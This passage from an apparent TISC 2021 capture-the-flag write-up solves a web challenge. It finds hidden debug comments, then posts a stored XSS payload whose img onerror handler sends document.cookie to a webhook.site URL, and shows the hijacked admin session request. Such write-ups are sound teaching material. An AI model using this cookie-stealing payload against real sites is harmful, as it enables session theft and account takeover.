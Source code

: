 Again, I tried some basic SQL injections, but nothing interesting happened. Then I decided to check out `register.php`. Under normal circumstances, the page just contains the single line `Due to the overwhelming request, registration is currently disabled` and absolutely nothing else. However, if we append `?debug=TRUE` to the URL, the following HTML comments show up as well:

```html
<!-- Note from admin: I temporarily disabled the registration form since it does not seems to be working if we are hardcoding them. -->
<!-- Thinking we should switch to using database for storing the credential in the future -->
<!-- <div>Upon sign up, the credentials are randomly generated and sent to the respective email.</div> -->
```

In other words, I should stop trying to attack the login page since there is no SQL database on the backend handling login requests anyway.

One last thing - while using the element inspector in my web browser, I had noticed the presence of a cookie named `PHPSESSID`. I didn't really know what I could do with it yet, though, so let's turn our attention back to `data.php` for now.

***

Back at `data.php`, I clicked on each of the links in turn, but the contents of each one seemed... random. Most of the time, the page simply said `No flag!`, but later on it would instead display an SQL injection attempt, or a broken image element, or... `Hi from scada`? I inferred from this that whatever we POSTed to the server from the very first subpage I was led to would eventually end up here. More specifically, the number of pages in this list is fixed, and each time a payload is successfully POSTED to the server the oldest page gets overwritten with its contents.

The default content of each page was probably `No flag!`, which explains why I saw those only initially. The SQL injection attempts and the broken image element were probably from other participants trying to post their own payloads to the server, too.

First, I tried to post an inline PHP payload, but the inline PHP tags were automatically commented out. Then, I googled a bit and discovered XSS cookie stealing. Since the updating timestamps suggested that the admin (presumably a bot with the admin cookie) was accessing each page at regular intervals, I decided to try writing a payload that would send me the contents of the `PHPSESSID` cookie of anybody who viewed it:

```html
<img src="a.jpg" onerror="this.src='https://webhook.site/6981cc77-63f5-4506-8daa-2b2b5676f4a2?c='%2bdocument.cookie"></img>
```

![4 explanation 5](/assets/tisc-2021/4_5.png)

After some tense waiting, the contents of the cookie popped up on my dashboard. I attemped to access `login.php` with it and was redirected to `landing_admin.php`:

![4 explanation 6](/assets/tisc-2021/4_6.png)

A quick inspection of outgoing requests revealed that a simple POST request was being issued:

```http
POST /landing_admin.php HTTP/1.1
Host: s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926
Content-Length: 14
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signedexchange;v=b3;q=0.9
Referer: http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/landing_admin.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ee41d669bc22bdec9995f3428e9d662e
```